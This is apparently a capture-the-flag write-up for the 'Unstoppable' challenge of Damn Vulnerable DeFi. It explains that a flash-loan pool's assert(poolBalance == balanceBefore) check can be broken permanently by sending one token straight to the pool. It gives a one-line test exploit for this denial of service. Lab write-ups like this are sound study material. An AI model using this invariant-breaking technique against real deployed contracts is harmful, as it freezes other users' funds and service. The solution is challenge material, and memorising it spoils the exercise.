 ```yaml
---
description: 'Challenge #1'
---
```


# Unstoppable

## Mission

There's a lending pool with a million DVT tokens in balance, offering flash loans for free.

If only there was a way to <mark style="color:yellow;">attack and stop the pool from offering flash loans</mark> ...

"You start with 100 DVT tokens in balance."

* The goal is to stop the pool from offering <mark style="color:yellow;">flash loans</mark>
* Essentially a Denial of Service (DoS) attack

## Exploit

* We know that we need to cause a form of DoS
* We need to discover where the flash loan function occurs

### Flash Loan Function

```
// ...
require(borrowAmount > 0, "Must borrow at least one token");
require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
assert(poolBalance == balanceBefore);
require(
  balanceAfter >= balanceBefore,
  "Flash loan hasn't been paid back"
);
```

* Now we have identified where the flash loan function takes place
* The borrow amount must be greater than zero
* <mark style="color:yellow;">If the balance and the pool balance are not equivalent, the contract will always fail on the flash loan function above</mark>

### Exploit Code

Add the following to the //enter exploit code here function in the challenge.js file:

```
it('Exploit', async function () {
        // transfer tokens to it to break it!
    await this.token.transfer(this.pool.address, 1)
    });
```

* Go to terminal and execute <mark style="color:yellow;">`yarn run unstoppable`</mark> inside the /damn-vulnerable-defi folder and you will get a checkmark next to the unstoppable challenge

### Proof

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>
